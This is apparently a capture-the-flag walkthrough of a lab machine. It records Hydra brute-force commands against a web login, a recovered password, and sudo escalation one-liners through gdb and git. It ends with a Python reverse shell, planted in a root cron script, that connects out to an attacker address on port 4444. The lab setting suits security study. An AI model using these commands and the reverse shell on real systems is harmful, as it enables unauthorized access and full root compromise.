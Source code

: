 # IP : 10.10.252.90
# Nmap Scan :
ftp 21 vsftpd
ssh 22
http 80  found robots.txt
/admin-dir
I told d4rckh we should hide our things deep.
So on hidden DIR we found user list & password list
use Hydra to do some bruteforce lets try

found nothing :( 
Lets try to find more hidden dir use gobuster
aothing only robots.txt
After that I again logined to ftp as I didn't find anything in other place & here we go one directory is available which we missed ...
after accessing we got yougotgoodeyes.txt file
and hell yeah one more directory /sUp3r-s3cr3t
let check it out
login form lets use hydra now 
hydra -L userid -P credentials.txt 10.10.252.90 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!"
We found correct user enox
let find correct password
hydra -l enox -P credentials.txt 10.10.252.90 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password"

[80][http-post-form] host: 10.10.252.90   login: enox   password: P@ssword1234
So We have our user name & password lets login
So we found page where we can insert data then lets inject our reverse shell :) 

So yeah we got access & user.txt available at d4rckh user 
let check for root & we can go to another user	thirtytwo which we can exploit using gdb 

 www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
$ sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
at user thirtytwo one file is their which telling us about d4rckh can use git 
lets check for root user again & this time we got access for d4rckh using git exploit at gtfobin

(d4rckh) NOPASSWD: /usr/bin/git
sudo -u d4rckh /usr/bin/git -p help config
!/bin/sh

here at d4rckh one python file is available which is runnig cron job lets edit file with our shell 

# =*- coding: utf-8 -*-
#!/usr/bin/env python

import socket, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.90.144",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.system("/bin/sh -i")

listen at local machine and after 2 min once revshell get execute we get the root access.
Go to root directory & access root flag .

Awesome We did it. 
Happy Hacking
